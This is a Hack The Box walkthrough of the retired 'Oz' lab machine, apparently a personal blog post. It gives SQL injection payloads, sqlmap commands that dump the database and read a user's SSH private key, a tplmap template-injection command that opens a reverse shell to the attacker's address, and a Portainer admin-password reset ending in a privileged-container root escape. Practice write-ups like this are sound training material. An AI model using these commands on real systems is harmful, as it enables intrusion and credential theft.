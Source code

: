 ```yaml
---
layout: post
title: Hack The Box - Oz
categories: hack-the-box
image: /hackthebox/oz/0.png
---
```


<hr>
### Quick Summary 
#### Hey I'm back with another Hack The Box write-up , this time Oz has retired and it was rated as a hard box. I enjoyed this box , it was really fun. It had some docker tricks which were very cool , It's a linux box and it's ip is 10.10.10.96 so let's jump right in.
#### Check out my [other Hack The Box write-ups](/categories) 
![](/images/hackthebox/oz/0.png)
<hr>
### Nmap
#### As always we will start by running nmap to scan for open ports and services.
`nmap -sV -sT -o nmapinitial oz.htb`
#### Note : I added the ip to my /etc/hosts file as oz.htb
![](/images/hackthebox/oz/1.png)
#### And we see only http on port 80 and 8080. We also see that it's running a python server.
<br>
<hr>
### Enumerating http
#### On port 80 there's a web page with the title "OZ Webapi" and it's asking us to register a username.
![](/images/hackthebox/oz/2.png)
#### On port 8080 we see a login page.
![](/images/hackthebox/oz/3.png)
#### If we tried running gobuster on port 80 to find hidden dirs and files we will get a wildcard response.
![](/images/hackthebox/oz/4.png)
#### And that's because the server doesn't respond with 404. Instead of 404 , when we request a non-existing page the server responds with a line of random chars.
#### Here I requested `http://oz.htb/anything`
![](/images/hackthebox/oz/5.png)
#### And this makes it hard to enumerate because we will always get a 200 response. So what are we going to do is to use wfuzz to filter the responses for us.
`wfuzz -u http://oz.htb/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 0`
#### This won't show us any response with 0 lines.
![](/images/hackthebox/oz/6.png)
#### After a few seconds we get /users/
<br>
<hr>
### SQL Injection
#### When we visit /users/ in the browser we get the default response : please register a username.
![](/images/hackthebox/oz/7.png)
#### So we have /users/ which is a valid path , what happens if we tried a username that probably exists, something like admin ?
![](/images/hackthebox/oz/8.png)
#### We get a json response `username : "admin"` 
#### Let's try a single quote `'`
![](/images/hackthebox/oz/9.png)
#### We get 500 Internal Server Error, So this endpoint is probably vulnerable to SQL injection , Let's try something else , `'OR 1 OR'`
![](/images/hackthebox/oz/10.png)
#### We get another username : "dorthi" , So this is a confirmation that it's vulnerable to sqli , Let's do another injection and see if we can enumerate users 
`' or length(username)='4`
![](/images/hackthebox/oz/11.png)
#### Another username : "toto"
#### Let's try 7 
![](/images/hackthebox/oz/12.png)
#### tin.man 
#### So we confirmed it's sqli , The next step is to use sqlmap.
`sqlmap -u http://10.10.10.96/users/toto --all`
#### This will dump the whole database
![](/images/hackthebox/oz/13.png)
#### After some time it will start dumping tables and we will notice an interesting table `users_gbw`
![](/images/hackthebox/oz/14.png)
#### So if we try to crack those hashes the only one that will crack is wizard.oz : `wizardofoz22`
#### Now we have a username and its password let's login to port 8080
![](/images/hackthebox/oz/15.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/16.png)
#### And success !
<br>
<hr>
### Dorthi's ssh key
#### We login to something that looks like a ticketing system, After reading the tickets we will find 2 interesting tickets.
![](/images/hackthebox/oz/17.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/18.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/19.png)
#### So this ssh key is on the database and we have sqli on that database , Let's grab it.
`sqlmap -u "http://10.10.10.96/users/toto" --string "username" --file-read "/home/dorthi/.ssh/id_rsa" -v1`
![](/images/hackthebox/oz/20.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/21.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/22.png)
#### Cool so now we can ssh and own user, No wait ...
#### By looking at the nmap scan again:
![](/images/hackthebox/oz/1.png)
#### There's no ssh listening !
<br>
<hr>
### Server Side Template Injection
#### If we return to that ticketing system we will see that we can add a ticket , it asks us for a name and a description.
![](/images/hackthebox/oz/23.png)
#### By capturing that request in burp we will see a POST request with two parameters name and desc.
![](/images/hackthebox/oz/24.png)
#### And the response outputs them.
![](/images/hackthebox/oz/25.png)
#### If we used [tplmap](https://github.com/epinna/tplmap) (a tool like sqlmap for automatic template injection exploitation) we will find that it's vulnerable.
`python tplmap.py -u 'http://10.10.10.96:8080' -X POST -d 'name=*&desc=anything' -c 'token=TOKEN' --reverse-shell 10.10.xx.xx 1337`
![](/images/hackthebox/oz/26.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/27.png)
#### Then we check our listener , we will get a reverse shell.
<br>
<hr>
### Knock , Knock
#### After some enumeration we will find in `/` two unusual dirs `containers` and `.secret` , in `.secret` there is a file called `knockd.conf` 
![](/images/hackthebox/oz/28.png)
#### That's a configuration file for ssh port knocking, Port knocking means that in order to connect to an ssh server you need to ping some ports in a specific sequence to be able to connect.
![](/images/hackthebox/oz/29.png)
#### In our situation the ports are 40809 50212 46969 and all of them are udp
#### In the other dir `containers` there's a dir called `database` which has some files, One of them is called `start.sh`
![](/images/hackthebox/oz/30.png)
#### And we grabbed some passwords maybe we will need them later.
#### Now we know the port sequence let's ssh into the box. We can use knockd to do that but I used a small script that uses nmap.
![](/images/hackthebox/oz/31.png)
#### We `chmod 600` to the key then execute our script.
![](/images/hackthebox/oz/32.png)
#### The key is protected with a password , Let's try the db password we found earlier : "N0Pl4c3L1keH0me"
![](/images/hackthebox/oz/33.png)
#### And we owned user ! 
<br>
<hr>
### Portainer
#### After some regular enumeration if we do sudo -l we will find that dorthi can run some commands as root `docker network ls` and `docker network inspect *`
![](/images/hackthebox/oz/34.png)
#### Let's first list the networks 
`sudo docker network ls`
![](/images/hackthebox/oz/35.png)
#### We see some networks let's inspect the first one `bridge`
`sudo docker network inspect bridge`
![](/images/hackthebox/oz/36.png)
#### We find `portainer-1.11.1` and its ip is `172.17.0.2` , Portainer is the user interface for docker management and it usually runs http on port 9000 , we can also check that by using nmap. Luckily it's installed on the box.
![](/images/hackthebox/oz/37.png)
#### And we see that port 9000 is listening , so now we need to set up an ssh port forwarding to be able to access that portainer.
#### We can edit the ssh port knocking script to add the forwarding command.
![](/images/hackthebox/oz/38.png)
#### Now when we visit localhost on port 9000 we get a login page.
![](/images/hackthebox/oz/39.png)
#### By using the HTTP API as documented [here](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) we can re-assign the admin password by sending a POST request to `/api/users/admin/init` with data as : `{"username":"admin","password":"new-password"}`
#### I did it with burp and set the password to `l0c4l` :
![](/images/hackthebox/oz/40.png)
<br>
<br>
<br>
![](/images/hackthebox/oz/41.png)
<br>
<hr>
### Root
#### After we login we will see the dashboard showing the status of the containers.
![](/images/hackthebox/oz/42.png)
#### In the containers tab there are 4 container running.
![](/images/hackthebox/oz/43.png)
#### If we check the container webapi we can use its console.
![](/images/hackthebox/oz/44.png)
#### We can create a new container with the image of webapi and mount `/root` or the whole filesystem `/` then use the console to access it.
#### First we will grab the image name from the images tab : "webapi:latest"
![](/images/hackthebox/oz/45.png)
#### Then we will create a container and name it anything , I named it "NiceContainer" , add the image , then add a volume with path `/root` and mount it to /mnt/ 
![](/images/hackthebox/oz/46.png)
#### Then from the security tab we choose privileged mode.
![](/images/hackthebox/oz/47.png)
#### Click create , Use the console , `cd /mnt` and we own root ! :D
![](/images/hackthebox/oz/48.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Waldo](/hack-the-box/waldo/)
#### Next Hack The Box write-up : [Hack The Box - SecNotes](/hack-the-box/secnotes/)
<hr>
